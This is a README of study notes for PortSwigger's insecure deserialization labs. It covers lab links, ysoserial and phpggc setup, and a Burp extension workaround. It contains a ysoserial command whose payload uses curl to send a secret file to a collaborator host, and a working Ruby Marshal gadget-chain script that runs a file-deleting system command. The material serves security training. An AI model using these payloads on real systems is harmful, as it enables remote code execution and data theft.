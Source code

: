 # [Insecure deserialization](https://portswigger.net/web-security/deserialization)

## Lab

- apprentice:
  - [1. Modifying serialized objects](./lab/1.%20Modifying%20serialized%20objects.md)
- practitioner:
  - [2. Modifying serialized data types](./lab/2.%20Modifying%20serialized%20data%20types.md)
  - [3. Using application functionality to exploit insecure deserialization](./lab/3.%20Using%20application%20functionality%20to%20exploit%20insecure%20deserialization.md)
  - [4. Arbitrary object injection in PHP](./lab/4.%20Arbitrary%20object%20injection%20in%20PHP.md)
  - [5. Exploiting Java deserialization with Apache Commons](./lab/5.%20Exploiting%20Java%20deserialization%20with%20Apache%20Commons.md)
  - [6. Exploiting PHP deserialization with a pre-built gadget chain](./lab/6.%20Exploiting%20PHP%20deserialization%20with%20a%20pre-built%20gadget%20chain.md)
  - [7. Exploiting Ruby deserialization using a documented gadget chain](./lab/7.%20Exploiting%20Ruby%20deserialization%20using%20a%20documented%20gadget%20chain.md)

## ysoserial

A proof-of-concept tool for generating payloads that exploit unsafe Java object deserialization.

install

- download: [ysoserial-all.jar](https://github.com/frohoff/ysoserial)

- install java version < 12:

```shell
$ sudo apt install openjdk-11-jre-headless
$ sudo update-alternatives --config java
There are 2 choices for the alternative java (providing /usr/bin/java).

  Selection    Path                                         Priority   Status
------------------------------------------------------------
* 0            /usr/lib/jvm/java-17-openjdk-amd64/bin/java   1711      auto mode
  1            /usr/lib/jvm/java-11-openjdk-amd64/bin/java   1111      manual mode
  2            /usr/lib/jvm/java-17-openjdk-amd64/bin/java   1711      manual mode

Press <enter> to keep the current choice[*], or type selection number: 1
```

example:

```shell
java -jar /mnt/d/Downloads/ysoserial-all.jar CommonsCollections7 'curl http://collaborator -d @/home/carlos/secret' | base64 -w 0
```

## java deserialization scanner burpsuite + ysoserial

install and configure:

![config.png](./img/extension-config.png)

bug:

`Newlines in headers` problem: when using this extension i get an error, it only adds `\n` to the end of the line, not `\r\n`.

![bug.png](./img/extension-bug.png)

My temporary fix: when `set insertion point` does not set to the end of the line but leaves a few characters, then use the `delete` key to delete each character from left to right. This will preserve the existing `\r\n` character of burpsuite.

![fix-1.png](./img/fix-1.png)

![fixed.png](./img/fixed.png)

## phpggc

install:

```shell
┌──(kali㉿kali)-[~]
└─$ sudo apt-get install phpggc  
```

## ruby

```ruby
# Autoload the required classes

#edited
require 'base64'

Gem::SpecFetcher
Gem::Installer

# prevent the payload from running when we Marshal.dump it
module Gem
  class Requirement
    def marshal_dump
      [@requirements]
    end
  end
end

wa1 = Net::WriteAdapter.new(Kernel, :system)

rs = Gem::RequestSet.allocate
rs.instance_variable_set('@sets', wa1)
#edited
rs.instance_variable_set('@git_set', "rm /home/carlos/morale.txt")

wa2 = Net::WriteAdapter.new(rs, :resolve)

i = Gem::Package::TarReader::Entry.allocate
i.instance_variable_set('@read', 0)
i.instance_variable_set('@header', "aaa")


n = Net::BufferedIO.allocate
n.instance_variable_set('@io', i)
n.instance_variable_set('@debug_output', wa2)

t = Gem::Package::TarReader.allocate
t.instance_variable_set('@io', n)

r = Gem::Requirement.allocate
r.instance_variable_set('@requirements', t)

payload = Marshal.dump([Gem::SpecFetcher, Gem::Installer, r])
#edited
puts Base64.encode64(payload)
```
